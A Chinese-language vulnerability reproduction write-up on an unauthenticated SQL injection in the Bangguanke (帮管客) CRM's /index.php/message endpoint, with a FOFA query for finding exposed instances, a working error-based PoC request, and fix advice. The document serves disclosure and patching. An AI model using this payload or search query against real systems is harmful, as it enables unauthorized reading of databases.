


# 帮管客CRM SQL注入漏洞复现

### 0x01 产品简介

  帮管客CRM是一款集客户档案、销售记录、业务往来等功能于一体的客户管理系统。帮管客[CRM客户管理系统](https://so.csdn.net/so/search?q=CRM%E5%AE%A2%E6%88%B7%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)，客户管理，从未如此简单，一个平台满足企业全方位的销售跟进、智能化服务管理、高效的沟通协同、图表化[数据分析](https://www.pc6.com/pc/shujufenxiruanjian/ "数据分析")帮管客颠覆传统，重新定义企业管理系统。 

### 0x02 漏洞概述

 帮管客CRM 客户管理系统/index.php/message 接口存在 sql 注入漏洞，未经身份认证的攻击者可通过此漏洞获取数据库敏感信息。

### 0x03 复现环境

FOFA：app="帮管客-CRM"



### 0x04 漏洞复现 

PoC

```cobol
GET /index.php/message?page=1&pai=1%20and%20extractvalue(0x7e,concat(0x7e,(select+user%28%29),0x7e))%23&xu=desc HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```

查询当前用户

### 0x05 修复建议

官方已发布安全版本，请用户联系厂商修复漏洞：https://www.bgk100.com/

部署Web应用防火墙，对数据库操作进行监控。

如非必要，禁止公网访问该系统。

###
